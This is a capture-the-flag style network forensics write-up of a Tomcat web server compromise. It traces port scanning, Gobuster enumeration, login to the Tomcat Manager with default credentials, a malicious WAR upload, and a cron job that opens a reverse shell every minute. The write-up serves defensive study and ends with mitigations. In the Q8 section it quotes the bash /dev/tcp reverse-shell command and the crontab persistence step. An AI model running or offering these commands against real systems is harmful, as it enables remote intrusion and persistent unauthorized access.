









# Web Server Compromise – Network Forensics Investigation

## 1. Lab Overview

- **Platform:** CyberDefenders
- **Category:** Network Forensics
- **Tool:** Wireshark
- **Artifact:** `web server.pcap`
- **Primary Protocols:** TCP, HTTP
- **Target Service:** Apache Tomcat
- **Attack Activities:** Port Scanning, Directory Enumeration, Brute Force, Malicious File Upload, Reverse Shell, Persistence

## 2. Scenario

A web server was observed receiving suspicious network requests across multiple ports, indicating potential reconnaissance and exploitation activity.

The investigation aims to identify the attacker's source IP address, determine the exposed web service, trace the attacker's enumeration activities, and reconstruct the compromise of the Apache Tomcat administration interface.

The analysis also focuses on identifying the malicious file uploaded by the attacker, investigating the resulting reverse shell, and determining whether persistence was established on the compromised server.

## 3. Investigation and Findings

### Q1. Identify the source IP address responsible for initiating suspicious requests against the web server.

**Answer: `14.0.0.120`**

**Analysis:**

I started by examining the IPv4 communication statistics to identify the IP addresses involved in the captured network traffic.

In Wireshark, I navigated to:

`Statistics → IPv4 Statistics → All Addresses`

The statistics revealed that `10.0.0.112` and `14.0.0.120` generated the majority of the observed traffic.

Further investigation of the HTTP requests showed that `14.0.0.120` was actively communicating with the web server and initiating suspicious requests.

This identified `14.0.0.120` as the source IP address responsible for the observed scanning and enumeration activity.

**Evidence:** `IPV4-stats.png`



### Q2. Identify the country from which the attacker's activities originated.

**Answer: `China`**

**Analysis:**

After identifying the suspicious source IP address, I investigated its geographical information using VirusTotal.

The IP address `14.0.0.120` was associated with the country code `CN`, indicating that the IP address is geolocated to China.

**Evidence:** `VT.png`



### Q3. Identify the port that provides access to the web server administration panel.

**Answer: `8080`**

**Analysis:**

To identify the exposed services, I examined the traffic associated with the attacker's IP address.

Wireshark display filter:

```wireshark
ip.addr == 14.0.0.120 && http
```

The HTTP traffic revealed communication with the web server on destination port `8080`.

By inspecting the packet details, I confirmed:

```text
Destination Port: 8080
```

This port was used to access the Apache Tomcat web interface, including its administration panel.

**Evidence:** `port.png`



### Q4. Identify the tool used by the attacker to enumerate directories and files on the web server.

**Answer: `Gobuster`**

**Analysis:**

After identifying the exposed web service, I examined the HTTP requests to investigate the attacker's directory enumeration activity.

Wireshark display filter:

```wireshark
ip.addr == 14.0.0.120 && http
```

I followed the HTTP streams associated with the suspicious requests and inspected the HTTP request headers.

The User-Agent field revealed:

```http
User-Agent: gobuster/3.6
```

This confirms that the attacker used Gobuster to enumerate directories and discover potentially accessible resources on the web server.

**Evidence:** `gobuster.png`



### Q5. Identify the directory related to the administration panel discovered by the attacker.

**Answer: `/manager`**

**Analysis:**

After identifying the enumeration tool, I examined the HTTP requests targeting the Tomcat web server.

The captured traffic showed repeated requests to:

```http
GET /manager/html HTTP/1.1
```

Several attempts initially returned:

```http
HTTP/1.1 401 Unauthorized
```

However, subsequent requests successfully accessed the resource and received:

```http
HTTP/1.1 200 OK
```

This indicates that the attacker eventually gained access to the Apache Tomcat Manager interface located at `/manager`.

**Evidence:** `http-stream.png`



### Q6. Identify the credentials successfully used by the attacker to access the administration panel.

**Answer: `admin:tomcat`**

**Analysis:**

After identifying the successful access to the Tomcat Manager interface, I inspected the HTTP request responsible for authentication.

The request contained an HTTP Basic Authentication header:

```http
Authorization: Basic YWRtaW46dG9tY2F0
```

Since Basic Authentication encodes credentials using Base64, I decoded the value using CyberChef.

The decoded result was:

```text
admin:tomcat
```

This confirms the credentials successfully used by the attacker to authenticate to the Tomcat Manager interface.

**Evidence:**
- `right-creds.png`
- `cyberchef.png`





### Q7. Identify the malicious file uploaded by the attacker to establish a reverse shell.

**Answer: `JXQOZY.war`**

**Analysis:**

After gaining access to the Tomcat Manager interface, the attacker attempted to upload a malicious application package.

I examined the HTTP traffic and followed the relevant HTTP stream associated with the upload activity.

The captured request revealed the uploaded file:

```text
JXQOZY.war
```

A WAR (Web Application Archive) file is a Java web application package that can be deployed on an application server such as Apache Tomcat.

In this incident, the attacker used the uploaded WAR file to introduce malicious functionality to the compromised server.

**Evidence:** `Q7.png`



### Q8. Identify the reverse shell callback destination in IP:port format.

**Answer: `14.0.0.120:443`**

**Analysis:**

After the malicious application was uploaded, I investigated the subsequent TCP communication to understand the commands executed on the compromised server.

Using Wireshark's Follow TCP Stream feature, I identified an interactive command session.

The attacker first executed:

```bash
whoami
```

The server returned:

```text
root
```

This indicates that the commands were being executed with root privileges.

The attacker then navigated to `/tmp`:

```bash
cd /tmp
pwd
```

The output confirmed the current working directory:

```text
/tmp
```

#### Reverse Shell Configuration

The attacker then executed the following command:

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
```

This command creates a file named `cron` containing a scheduled task designed to establish a reverse shell connection.

The command was then registered using:

```bash
crontab -i cron
```

To verify the scheduled task, the attacker executed:

```bash
crontab -l
```

The output confirmed the following entry:

```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

#### Command Breakdown

- `* * * * *`: Configures the task to execute every minute.
- `/bin/bash -c`: Executes the specified command through Bash.
- `bash -i`: Starts an interactive Bash shell.
- `/dev/tcp/14.0.0.120/443`: Establishes a TCP connection to the attacker's IP address on port `443`.
- `>&`: Redirects the shell's input and output through the connection.

This demonstrates that the attacker attempted to establish persistence by scheduling a reverse shell command to run every minute.

The callback destination was therefore:

```text
14.0.0.120:443
```

**Evidence:** `Q8.png`



## 4. Attack Timeline

| Stage | Activity | Evidence |
|---|---|---|
| 1 | Reconnaissance and suspicious requests | `IPV4-stats.png` |
| 2 | Identification of attacker geolocation | `VT.png` |
| 3 | Access to Tomcat on port 8080 | `port.png` |
| 4 | Directory enumeration using Gobuster | `gobuster.png` |
| 5 | Discovery and access to `/manager` | `http-stream.png` |
| 6 | Successful authentication using `admin:tomcat` | `right-creds.png`, `cyberchef.png` |
| 7 | Upload of `JXQOZY.war` | `Q7.png` |
| 8 | Root shell activity and scheduled reverse shell | `Q8.png` |

## 5. Final Answers

| Question | Finding |
|---|---|
| Q1 – Attacker IP | `14.0.0.120` |
| Q2 – Attacker Country | `China` |
| Q3 – Tomcat Admin Port | `8080` |
| Q4 – Enumeration Tool | `Gobuster` |
| Q5 – Admin Panel Directory | `/manager` |
| Q6 – Successful Credentials | `admin:tomcat` |
| Q7 – Malicious Uploaded File | `JXQOZY.war` |
| Q8 – Reverse Shell Callback | `14.0.0.120:443` |

## 6. Conclusion

The investigation revealed a web server compromise involving reconnaissance, directory enumeration, unauthorized access attempts, and exploitation of the Apache Tomcat administration interface.

The attacker, originating from `14.0.0.120`, accessed the Tomcat service on port `8080` and used Gobuster to enumerate available resources.

The attacker subsequently discovered the `/manager` interface and successfully authenticated using the credentials `admin:tomcat`.

After gaining administrative access, the attacker uploaded a malicious WAR file named `JXQOZY.war`, which was followed by interactive shell activity on the compromised server.

The TCP stream revealed that the attacker obtained a shell running with root privileges and configured a Cron Job to execute a reverse shell command every minute, connecting back to `14.0.0.120` on port `443`.

These findings indicate a successful compromise of the web server, followed by privileged command execution and an attempt to establish persistence.

## 7. Recommended Mitigations

- Restrict access to administrative interfaces such as Apache Tomcat Manager.
- Replace default or weak credentials with strong, unique passwords.
- Restrict access to Tomcat Manager using IP allowlisting and network segmentation.
- Monitor HTTP requests for directory enumeration tools and suspicious User-Agent values.
- Monitor file uploads to application servers, especially unexpected WAR deployments.
- Audit Tomcat application deployments and remove unauthorized applications.
- Monitor suspicious shell processes and unexpected commands executed by application service accounts.
- Audit Cron Jobs for unauthorized scheduled tasks.
- Monitor outbound connections to unusual external IP addresses and ports.
- Investigate unexpected reverse shell activity and isolate compromised systems when necessary.
